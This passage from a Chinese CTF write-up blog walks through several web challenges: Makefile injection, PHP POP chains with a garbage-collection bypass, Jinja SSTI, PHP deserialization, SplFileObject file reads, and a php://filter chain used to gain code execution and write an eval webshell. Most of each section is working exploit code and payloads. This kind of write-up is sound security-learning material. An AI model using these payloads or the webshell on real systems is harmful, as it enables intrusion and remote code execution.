/^[$|\(|\)|\@|\[|\]|\{|\}|\<|\>|\-]+$/
```

估计是正则匹配的表达式

先输出可用字符

```php
<?php
for ($i=32;$i<127;$i++){
        if (!preg_match("/^[$|\(|\)|\@|\[|\]|\{|\}|\<|\>|\-]+$/",chr($i))){
            echo chr($i)." ";
        }
}

?>
//! " # % & ' * + , . / 0 1 2 3 4 5 6 7 8 9 : ; = ? A B C D E F G H I J K L M N O P Q R S T U V W X Y Z \ ^ _ ` a b c d e f g h i j k l m n o p q r s t u v w x y z ~ 
```

一开始以为是有这么多字符可以用，后面才发现这个表达式是需要匹配的，而并非不能匹配的,也就是白名单

```php
#输出可用字符
<?php
for ($i=32;$i<127;$i++){
        if (preg_match("/^[$|\(|\)|\@|\[|\]|\{|\}|\<|\>|\-]+$/",chr($i))){
            echo chr($i)." ";
        }
}

?>
//$ ( ) - < > @ [ ] { | } 
```

学习一下关于Makefile中的$@, $^, $< , $?, $%, $+, $*

参考文章：[Makefile中的$@, $^, $< , $?, $%, $+, $*](https://blog.csdn.net/dlf1769/article/details/78997967)

```
$@  表示目标文件
$^  表示所有的依赖文件
$<  表示第一个依赖文件
$?  表示比目标还要新的依赖文件列表
$% 仅当目标是函数库文件中，表示规则中的目标成员名。例如，如果一个目标是“foo.a(bar.o)”，那么，“$%”就是“bar.o”，“$@”就是“foo.a”。如果目标不是函数库文件（Unix下是[.a]，Windows下是[.lib]），那么，其值为空。

$+ 这个变量很像“$^”，也是所有依赖目标的集合。只是它不去除重复的依赖目标。

$* 这个变量表示目标模式中“%”及其之前的部分。如果目标是“dir/a.foo.b”，并且目标的模式是“a.%.b”，那么，“$*”的值就是“dir/a.foo”。这个变量对于构造有关联的文件名是比较有较。如果目标中没有模式的定义，那么“$*”也就不能被推导出，但是，如果目标文件的后缀是make所识别的，那么“$*”就是除了后缀的那一部分。例如：如果目标是“foo.c”，因为“.c”是make所能识别的后缀名，所以，“$*”的值就是“foo”。这个特性是GNU make的，很有可能不兼容于其它版本的make，所以，你应该尽量避免使用“$*”，除非是在隐含规则或是静态模式中。如果目标中的后缀是make所不能识别的，那么“$*”就是空值。
```

传入`$<`，有回显/flag，随后我们要读取，要用 < 重定向符读取，用于从文件中读取内容

我们测试一下输入 <$< 回显了</flag

随后我们要读取到一个地方，也没有什么地方能读取，只能读取到变量里那么我们就能构造出

payload

```
$(<$<)
```

但是还是读取不了，回显

```
make: Nothing to be done for 'FLAG'.
```

这个时候我们就要用到转义符号 $ ，这是因为在 Makefile 中， $ 符号是特殊字符，需要转义才

能正常使用，所以就得到了最终的payload

```
$$(<$<)
```

有点神奇。。全程跟着wp做的，但还是得理解一下

从内到外去理解一下

首先需要理解的是重定向符

### 重定向符`<`

在 Shell（如 Bash）中，`<` 是一个 **输入重定向（Input Redirection）符号**，用于 **将文件内容作为命令的输入**。

语法

```
命令 < 文件
```

那么<$< 回显了</flag，此时根据这个特点，我们可以把flag文件的内容当成是命令的输入，然后我们需要解决如何输出这个命令或者是读取这个命令

### $(<$<)

**`$( <$< )`** → **读取输入并执行命令**

在 Bash 中，`$( command )` 的语法是 **命令替换（Command Substitution）**，它的作用是：

1. **执行 `command` 并捕获其标准输出（stdout）**。
2. **将命令的输出结果替换到当前位置**。

例如我们本地测试一下

```
root@VM-16-12-ubuntu:/var/www/html# cat 1.php
123
root@VM-16-12-ubuntu:/var/www/html# $(<1.php)
123: command not found
```

### 最终payload

`$$(<$<)`：其实和上面的一样，只不过

在 Makefile 中：

- **单个 `$`** → 被 Make 解析（用于变量或自动化变量，如(CC)‘、‘(*CC*)‘、‘@`）。
- **`$$`** → 转义为 **单个 `$`** 并传递给 Shell（避免 Make 解析）。

## ezPOP

### #GC回收绕过

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class AAA
{
    public $s;
    public $a;
    public function __toString()
    {
        echo "you get 2 A <br>";
        $p = $this->a;
        return $this->s->$p;
    }
}

class BBB
{
    public $c;
    public $d;
    public function __get($name)
    {
        echo "you get 2 B <br>";
        $a=$_POST['a'];
        $b=$_POST;
        $c=$this->c;
        $d=$this->d;
        if (isset($b['a'])) {
            unset($b['a']);
        }
        call_user_func($a,$b)($c)($d);
    }
}

class CCC
{
    public $c;

    public function __destruct()
    {
        echo "you get 2 C <br>";
        echo $this->c;
    }
}


if(isset($_GET['xy'])) {
    $a = unserialize($_GET['xy']);
    throw new Exception("noooooob!!!");
}
```

这里的话链子还是很简单的

```
CCC::__destruct()->AAA::__toString()->BBB::__get()
```

exp

```php
<?php
class AAA
{
    public $s;
    public $a;
}

class BBB
{
    public $c;
    public $d;
}

class CCC
{
    public $c;
}
//CCC::__destruct()->AAA::__toString()->BBB::__get()
$c = new CCC();
$c-> c = new AAA();
$c-> c -> s = new BBB();
```

重点在于get方法中的

```php
public function __get($name)
    {
        echo "you get 2 B <br>";
        $a=$_POST['a'];
        $b=$_POST;
        $c=$this->c;
        $d=$this->d;
        if (isset($b['a'])) {
            unset($b['a']);
        }
        call_user_func($a,$b)($c)($d);
    }
```

这里的话会检测是否有a参数并删除a参数，重点在于

```php
call_user_func($a, $b)($c)($d);
```

这里的话是一个动态函数调用链，先是调用函数 `$a`，并将 `$b` 作为参数传递，调用后还会对结果链式调用两次，这个动态调用还是第一次见，看wp后发现也是函数嵌套调用

用`implode`函数打，可以将数组连接成字符串，说白了就是占个位置，最终还是落实到最后的$c和$d去进行代码执行

先试一下

```php
<?php
$a = "implode";
$b = ["impl","ode"];
echo implode($b);
//implode
```

然后我们构造一下payload

```php
<?php
$a = "implode";
$b = ["impl","ode"];
$c = array("sys", "tem");
$d = "whoami";
call_user_func($a,$b)($c)($d);
//wanth3f1ag\23232
```

成功执行了，然后我们试着写exp

```php
<?php
class AAA
{
    public $s;
    public $a;
}

class BBB
{
    public $c = array("sys", "tem");
    public $d = "ls";
}

class CCC
{
    public $c;
}
//CCC::__destruct()->AAA::__toString()->BBB::__get()
$c = new CCC();
$c-> c = new AAA();
$c-> c -> s = new BBB();
echo serialize($c);
//O:3:"CCC":1:{s:1:"c";O:3:"AAA":2:{s:1:"s";O:3:"BBB":2:{s:1:"c";a:2:{i:0;s:3:"sys";i:1;s:3:"tem";}s:1:"d";s:2:"ls";}s:1:"a";N;}}
```

这里还需要注意一行代码

```php
throw new Exception("noooooob!!!");
```

NewStar2023年的一道题也有，就是GC回收绕过

`throw new Exception("noooooob!!!");` 是 PHP 中用于抛出异常的语句。它的作用是创建一个异常对象并将其抛出，通常用于在程序遇到错误或意外情况时中断正常流程，并将错误信息传递给调用者。

首先我们需要知道，在php中，当对象被销毁时会自动调用__destruct()方法，但如果程序报错或者抛出异常，就不会触发该魔术方法。

```php
<?php
class test{
    public $test = "yes";
    public function __destruct() {
        echo $this->test;
    }
}
$a = new test();
throw new Exception("noooooob!!!");
```

测试并没有输出yes，说明没触发该方法，这是因为throw函数自动回收了销毁的对象，导致destruct检测不到有东西销毁，从而导致无法触发魔术方法

所以我们可以通过提前触发垃圾回收机制来抛出异常，从而绕过GC回收，唤醒__destruct()魔术方法。

触发垃圾回收机制的方法有

- 数组对象为NULL时，可以触发。
- 对象被unset()处理时，可以触发。

所以我们这里可以用第一个方法，去构造数组对象并让数组对象为NULL

所以最后的exp

直接用array($c, null)得到一个数组,然后改成非法数组

本地测试debug一下





发现可以绕过，直接打就行

exp

```php
<?php
class AAA
{
    public $s;
    public $a;
}

class BBB
{
    public $c = array("sys", "tem");
    public $d = "cat /flag";
}

class CCC
{
    public $c;
}
//CCC::__destruct()->AAA::__toString()->BBB::__get()
$c = new CCC();
$c-> c = new AAA();
$c-> c -> s = new BBB();
$d = serialize(array($c,null));
$e = str_replace("i:1;N;","i:0;N;",$d);
echo urlencode($e);
```

```
GET:
xy=a%3A2%3A%7Bi%3A0%3BO%3A3%3A%22CCC%22%3A1%3A%7Bs%3A1%3A%22c%22%3BO%3A3%3A%22AAA%22%3A2%3A%7Bs%3A1%3A%22s%22%3BO%3A3%3A%22BBB%22%3A2%3A%7Bs%3A1%3A%22c%22%3Ba%3A2%3A%7Bi%3A0%3Bs%3A3%3A%22sys%22%3Bi%3A1%3Bs%3A3%3A%22tem%22%3B%7Ds%3A1%3A%22d%22%3Bs%3A9%3A%22cat+%2Fflag%22%3B%7Ds%3A1%3A%22a%22%3BN%3B%7D%7Di%3A0%3BN%3B%7D
POST:
a=implode&1=impl&2=ode
```

## 我是一个复读机

### #SSTI

有个弱口令的字典，下下来吧

这个字典爆的有点久，然后爆破密码为asdqwe

登录进去就是一个界面


过滤了flag,也过滤了`{}`

测试之后发现存在xss，传入中文后出现`我只能看懂你说的英文(＞﹏＜){}`后面有括号，猜测可以通过报错把ssti的结果爆出来

```
一8*8一
```

出现回显64，可以确认为打jinja的ssti

测试之后发现过滤了`" , ' [ ] flag _ os `，直接打request外带吧这样快一些

```
?sentence=一(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()一&a=__globals__&b=os&c=cat%20/flag
```

## ezSerialize

### level1

### #指针绕过

```php
<?php
include 'flag.php';
highlight_file(__FILE__);
error_reporting(0);

class Flag {
    public $token;
    public $password;

    public function __construct($a, $b)
    {
        $this->token = $a;
        $this->password = $b;
    }

    public function login()
    {
        return $this->token === $this->password;
    }
}

if (isset($_GET['pop'])) {
    $pop = unserialize($_GET['pop']);
    $pop->token=md5(mt_rand());
    if($pop->login()) {
        echo $flag;
    }
}
```

这里的话需要满足login中的条件，所以token需要等于password，但是token是一个随机数的md5加密

但是这里没有随机数种子，所以是伪随机数的可能性不大

其实这道题是ctfshow中的web265，用指针去打就行

详细参考一下我之前web265的wphttps://wanth3f1ag.top/2024/11/05/web%E5%85%A5%E9%97%A8%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E7%AF%87-ctfshow/

exp

```php
<?php
class Flag {
    public $token;
    public $password;

    public function __construct()
    {
        $this->password = &$this -> token;
    }
}
$a = new Flag();
echo urlencode(serialize($a));
```

传入后拿到fpclosefpclosefpcloseffflllaaaggg.php文件

### level2

### #常规php

```php
<?php
highlight_file(__FILE__);
class A {
    public $mack;
    public function __invoke()
    {
        $this->mack->nonExistentMethod();
    }
}

class B {
    public $luo;
    public function __get($key){
        echo "o.O<br>";
        $function = $this->luo;
        return $function();
    }
}

class C {
    public $wang1;

    public function __call($wang1,$wang2)
    {
            include 'flag.php';
            echo $flag2;
    }
}


class D {
    public $lao;
    public $chen;
    public function __toString(){
        echo "O.o<br>";
        return is_null($this->lao->chen) ? "" : $this->lao->chen;
    }
}

class E {
    public $name = "xxxxx";
    public $num;

    public function __unserialize($data)
    {
        echo "<br>学到就是赚到!<br>";
        echo $data['num'];
    }
    public function __wakeup(){
        if($this->name!='' || $this->num!=''){
            echo "旅行者别忘记旅行的意义!<br>";
        }
    }
}

if (isset($_POST['pop'])) {
    unserialize($_POST['pop']);
}
```

链子也是很简单的

```
E::__wakeup()->D::__toString()->B::__get()->A::__invoke()->C::__call()
```

exp

```php
<?php
class A{
    public $mack;
}
class B {
    public $luo;
}

class C {
    public $wang1;
}


class D {
    public $lao;
    public $chen;
}

class E {
    public $name ;
    public $num;
}
//E::__unserialize()->D::__toString()->B::__get()->A::__invoke()->C::__call()
$a = new E();
$a -> num = new D();
$a -> name = '';
$a -> num -> lao = new B();
$a -> num -> lao -> luo = new A();
$a -> num -> lao -> luo -> mack = new C();
echo urlencode(serialize($a));
```

然后拿到saber_master_saber_master.php，继续

### level3

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

// flag.php
class XYCTFNO1
{
    public $Liu;
    public $T1ng;
    private $upsw1ng;

    public function __construct($Liu, $T1ng, $upsw1ng = Showmaker)
    {
        $this->Liu = $Liu;
        $this->T1ng = $T1ng;
        $this->upsw1ng = $upsw1ng;
    }
}

class XYCTFNO2
{
    public $crypto0;
    public $adwa;

    public function __construct($crypto0, $adwa)
    {
        $this->crypto0 = $crypto0;
    }

    public function XYCTF()
    {
        if ($this->adwa->crypto0 != 'dev1l' or $this->adwa->T1ng != 'yuroandCMD258') {
            return False;
        } else {
            return True;
        }
    }
}

class XYCTFNO3
{
    public $KickyMu;
    public $fpclose;
    public $N1ght = "Crypto0";

    public function __construct($KickyMu, $fpclose)
    {
        $this->KickyMu = $KickyMu;
        $this->fpclose = $fpclose;
    }

    public function XY()
    {
        if ($this->N1ght == 'oSthing') {
            echo "WOW, You web is really good!!!\n";
            echo new $_POST['X']($_POST['Y']);
        }
    }

    public function __wakeup()
    {
        if ($this->KickyMu->XYCTF()) {
            $this->XY();
        }
    }
}


if (isset($_GET['CTF'])) {
    unserialize($_GET['CTF']);
}
```

这里的话需要在XYCTFNO1类中添加一个属性crypto0

```php
<?php
// flag.php
class XYCTFNO1
{
    public $Liu;
    public $T1ng;
    private $upsw1ng;
    public $crypto0="dev1l";
}

class XYCTFNO2
{
    public $crypto0;
    public $adwa;
}

class XYCTFNO3
{
    public $KickyMu;
    public $fpclose;
    public $N1ght = "oSthing";
}
$a = new XYCTFNO3();
$a -> KickyMu = new XYCTFNO2();
$a -> KickyMu -> adwa = new XYCTFNO1();
$a -> KickyMu -> adwa ->T1ng = "yuroandCMD258";
//unserialize(serialize($a));
echo serialize($a);
//O:8:"XYCTFNO3":3:{s:7:"KickyMu";O:8:"XYCTFNO2":2:{s:7:"crypto0";N;s:4:"adwa";O:8:"XYCTFNO1":4:{s:3:"Liu";N;s:4:"T1ng";s:13:"yuroandCMD258";s:17:"%00XYCTFNO1%00upsw1ng";N;s:7:"crypto0";s:5:"dev1l";}}s:7:"fpclose";N;s:5:"N1ght";s:7:"oSthing";}
```

记得在private属性的属性名加上%00

然后有`new $_POST['X']($_POST['Y']);`，这里的话用原生类去读取文件就行

### #原生类SplFileObject读取文件

这里用php原生类SplFileObject读/flag


SplFileObject 类中的fgets和fread方法都可以读文件，尽管这些方法没有参数，但是filename文件名是在类中确定的，所以直接传文件名就行

但是这里直接传flag.php不行，可能会解析，配合伪协议读就行

因为这里会解析，所以当然也可以写马

```
GET:?CTF=O%3A8%3A%22XYCTFNO3%22%3A3%3A%7Bs%3A7%3A%22KickyMu%22%3BO%3A8%3A%22XYCTFNO2%22%3A2%3A%7Bs%3A7%3A%22crypto0%22%3BN%3Bs%3A4%3A%22adwa%22%3BO%3A8%3A%22XYCTFNO1%22%3A4%3A%7Bs%3A3%3A%22Liu%22%3BN%3Bs%3A4%3A%22T1ng%22%3Bs%3A13%3A%22yuroandCMD258%22%3Bs%3A17%3A%22%00XYCTFNO1%00upsw1ng%22%3BN%3Bs%3A7%3A%22crypto0%22%3Bs%3A5%3A%22dev1l%22%3B%7D%7Ds%3A7%3A%22fpclose%22%3BN%3Bs%3A5%3A%22N1ght%22%3Bs%3A7%3A%22oSthing%22%3B%7D
POST:
X=SplFileObject&Y=php://filter/read=convert.base64-encode/resource=flag.php
```



## ezLFI

### #filter链RCE

附件中有

```
<?php include_once($_REQUEST['file']);
```

文件包含

```
?file=/etc/passwd
```

成功实现任意文件读取，可以打filter链实现RCE

```
root@VM-16-12-ubuntu:/opt/php_filter_chain_RCE/php_filter_chain_generator# python3 php_filter_chain_generator.py -h
usage: php_filter_chain_generator.py [-h] [--chain CHAIN] [--rawbase64 RAWBASE64]

PHP filter chain generator.

options:
  -h, --help            show this help message and exit
  --chain CHAIN         Content you want to generate. (you will maybe need to pad with spaces for
                        your payload to work)
  --rawbase64 RAWBASE64
                        The base64 value you want to test, the chain will be printed as base64 by
                        PHP, useful to debug.
```

用phpinfo试一下

```
python3 php_filter_chain_generator.py --chain '<?php @eval($_POST['cmd']);?>'
```

传入

```php+HTML
?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```



成功RCE，那就试着写马

```
GET:
?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.864.UTF32|convert.iconv.IBM912.NAPLPS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP949.UTF32BE|convert.iconv.ISO_69372.CSIBM921|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNI